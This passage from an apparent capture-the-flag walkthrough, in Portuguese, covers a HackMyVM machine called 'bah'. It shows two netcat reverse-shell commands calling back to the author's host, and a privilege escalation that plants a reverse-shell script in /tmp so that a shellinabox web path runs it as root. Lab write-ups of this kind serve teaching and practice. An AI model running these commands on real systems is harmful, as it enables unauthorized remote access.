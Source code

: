 Pra melhor comodidade fiz uma reverse shell com `nc 192.168.15.26 443 -e /bin/bash`  
Na home tem a pasta de rocio

![alt text](/assets/img/bah/4.png)

Testei o usuário rocio novamente em `party.bah.hmv`, e conectou, eu havia digitado i minúsculo da senha.  

Rodando `linpeas` tem esse processo da aplicação `shell in a box`, que visualizei com o `pspy` mais de perto.

![alt text](/assets/img/bah/6.png)

Olhando o manual em <https://github.com/shellinabox/shellinabox/wiki/shellinaboxd_man>
a opção -s seta um `diretório/path` na url pra ser executado, onde esta /tmp/dev é o CMD command line, como na /tmp não possui esse arquivo, criei um script com reverse shell

```console
rocio@bah:/tmp$ cat dev
#!/bin/bash
nc 192.168.15.26 445 -e /bin/bash                                                               
rocio@bah:/tmp$ chmod +x dev               
```
{: .nolineno }                                                    
 Agora ao acessar `http://party.bah.hmv/devel/` o script dev é executado e eu recebo uma reverse shell com root.
 ![alt text](/assets/img/bah/7.png)